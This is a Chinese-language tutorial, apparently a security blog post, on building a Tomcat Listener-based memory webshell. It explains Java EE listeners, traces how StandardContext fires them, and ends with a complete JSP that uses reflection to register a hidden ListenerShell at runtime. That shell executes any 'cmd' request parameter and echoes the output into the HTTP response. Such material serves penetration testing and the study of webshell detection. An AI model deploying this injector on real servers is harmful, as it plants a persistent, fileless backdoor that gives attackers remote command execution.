






# Listener内存马

Listener 它是 JavaEE 的规范，就是接口。用于监听 JavaWeb 程序中的事件。（如：ServletContext、HttpSession、ServletRequest的创建、修改和删除）

监听器的作用是，监听某种事物的变化。然后通过回调函数，反馈给客户（程序）去做一些相应的处理。

在 JavaWeb 中，可以为某些事件来设置监听器，当事件被触发时，监听器中的指定方法会被调用。

Servlet程序、Filter 过滤器 和 Listener 监听器 并称 WEB 的三大组件。

Listener 的原理是基于观察者模式的，所谓的观察者模式简单来说，就是当被观察者的特定事件被触发（一般在某些方法被调用后），会通知观察者（调用观察者的方法），观察者可以在自己的的方法中来对事件做一些处理。

## Java Web中常见的Listener类型

|类型|触发事件|
| ------------------------| ----------------------------------------------------------------------------------------|
|ServletContextListener|在ServletContext创建和关闭时都会通知ServletContextListener监听器。|
|HttpSessionListener|当一个HttpSession刚被创建或者失效（invalidate）的时候，将会通知HttpSessionListener监听|
|ServletRequestListener|在ServletRequest创建和关闭时都会通知ServletRequestListener监听器|

## ServletRequestListener的生命周期


## 尝试写一个自己的Listener

1. 新建一个基础web项目，并添加一个自己的Listener





在pom.xml中配置依赖

```xml
 <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
        <dependency>
            <groupId>org.apache.tomcat</groupId>
            <artifactId>tomcat-catalina</artifactId>
            <version>8.0.53</version>
        </dependency>
```

添加MyListener类



编写如下类

```jsp
package com.example.memshell;

import jakarta.servlet.ServletRequest;
import jakarta.servlet.ServletRequestEvent;
import jakarta.servlet.ServletRequestListener;
import java.io.IOException;

public class MyListener implements ServletRequestListener {
    public void requestInitialized(ServletRequestEvent sre) {
      ServletRequest req = sre.getServletRequest();
      String cmd = req.getParameter("cmd");
      if (cmd != null) {
          try {
              Runtime.getRuntime().exec(cmd);
          } catch (IOException e) {
              throw new RuntimeException(e);
          }
      }
    }
  }
```

修改web.xml配置

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="https://jakarta.ee/xml/ns/jakartaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="https://jakarta.ee/xml/ns/jakartaee https://jakarta.ee/xml/ns/jakartaee/web-app_6_0.xsd"
         version="6.0">
    <listener>
        <listener-class>com.example.memshell.MyListener</listener-class>
    </listener>
</web-app>
```

测试运行效果



知道了基本原理之后就需要探究如何在Web应用运行时注入Listener。

在Listener方法中加入断点，并调试运行后触发断点



发现方法是由StandardContext.fireRequestInitEvent()调用



并且发现调用的Listener来自StandardContext中的applicationEventListenersList。那么事情到此就解决了。

步骤如下

1. 动态创建一个Listener类，
2. 通过反射获取StandardContext.applicationEventListenersList属性
3. 将创建的类添加进applicationEventListenersList列表

那么自然会在请求时触发我们动态创建的Listener类。

那么jsp怎么写呢

```jsp
<%@ page import="java.lang.reflect.*" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%--声明一个恶意Filter--%>
<%!
    public class ListenerShell implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            ServletRequest req = sre.getServletRequest();
            Class reqClass = req.getClass();
            try {
                Field field = reqClass.getDeclaredField("request");
                field.setAccessible(true);
                Response  resp = ((Request) field.get(req)).getResponse();
                String cmd = req.getParameter("cmd");
                if (cmd != null) {
                    Process proc = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(proc.getInputStream()));
                    String line;
                    while ((line = br.readLine()) != null) {
                        resp.getWriter().println(line);
                    }
                    br.close();
                }
            } catch (Exception e) {
                throw new RuntimeException(e);
            }

        }

        @Override
        public void requestDestroyed(ServletRequestEvent servletRequestEvent) {}


    }
%>
<%--从ServletContext中获取StandardContext--%>
<%
    // 从request中获取servletContext
    ServletContext servletContext = request.getServletContext();
    // 从servletContext中获取applicationContext
    Field applicationContextField = servletContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
    // 从applicationContext中获取standardContext
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
%>
<%--动态注册恶意Listener--%>
<%
    standardContext.addApplicationEventListener(new ListenerShell());
%>
```

‍
